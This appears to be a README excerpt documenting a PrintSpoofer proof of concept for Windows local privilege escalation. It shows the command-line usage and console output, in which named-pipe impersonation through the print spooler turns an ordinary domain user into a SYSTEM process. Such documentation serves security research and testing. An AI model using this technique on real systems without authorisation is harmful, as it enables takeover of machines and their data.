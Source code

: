 To try this PoC, set command to execute with `-c` option.
In default, specified command will be executed with Secondary Logon Service as follows:

```
C:\Tools>PrintSpoofer.exe -c cmd.exe

[>] Trying to create named pipe.
[+] Named pipe is created successfully.
    [*] Path : \\.\pipe\PrivFuPipe\pipe\spoolss
[>] Waiting for named pipe connection.
[+] Print spooler is triggered successfully.
[+] Got named pipe connection.
[+] Named pipe impersonation is successful (SID: S-1-5-18).
[+] SYSTEM process is executed successfully (PID = 5148).
[*] Done.
```

![](./figures/PrintSpoofer.png)

When set `-i` flag, specified command will be executed in same console:

```
C:\Tools>whoami /user

USER INFORMATION
----------------

User Name     SID
============= =============================================
contoso\david S-1-5-21-3654360273-254804765-2004310818-1104

C:\Tools>PrintSpoofer.exe -i -c cmd

[>] Trying to create named pipe.
[+] Named pipe is created successfully.
    [*] Path : \\.\pipe\PrivFuPipe\pipe\spoolss
[>] Waiting for named pipe connection.
[+] Print spooler is triggered successfully.
[+] Got named pipe connection.
[+] Named pipe impersonation is successful (SID: S-1-5-18).
[+] SYSTEM process is executed successfully (PID = 7504).
Microsoft Windows [Version 10.0.18362.175]
```